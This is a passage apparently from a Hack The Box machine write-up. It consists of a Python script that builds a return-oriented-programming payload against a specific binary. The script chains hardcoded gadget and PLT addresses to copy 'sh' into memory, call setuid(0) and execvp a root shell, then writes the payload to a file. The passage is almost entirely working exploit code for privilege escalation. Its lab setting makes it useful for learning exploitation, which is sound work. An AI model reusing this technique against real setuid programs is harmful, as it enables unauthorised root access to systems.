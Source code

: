 ```python

# functions@plt
execvp = 0x400760
setuid = 0x400780
strcpy = 0x4006f0

# gadgets
pop_rdi_ret = 0x400de3
pop_rsi_pop_ret = 0x400de1
ret = 0x4006c6
skip = 0x4006c2

# exploit format
payload += action
payload += newline
payload += address
payload += offset

# write "sh" to 0x6020a0 - 112 bytes
for i in range(len(shell)):
	payload += p64(pop_rsi_pop_ret)
	payload += p64(shell[i])
	payload += p64(skip)
	payload += p64(pop_rdi_ret)
	payload += p64(writeme+i)
	payload += p64(strcpy)
	payload += p64(ret)

# setuid(0) - 32 bytes
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(setuid)
payload += p64(ret)

# execv("sh", 0) - 56 bytes
payload += p64(pop_rsi_pop_ret)
payload += p64(0)
payload += p64(skip)
payload += p64(pop_rdi_ret)
payload += p64(writeme)
payload += p64(execvp)
payload += p64(ret)

payload += newline

# write payload to file
f = open('payload', 'wb')
f.write(payload)
f.close
```


[1]: https://www.hackthebox.eu/home/machines/profile/162
[2]: https://www.hackthebox.eu/home/users/profile/9631
[3]: https://www.hackthebox.eu/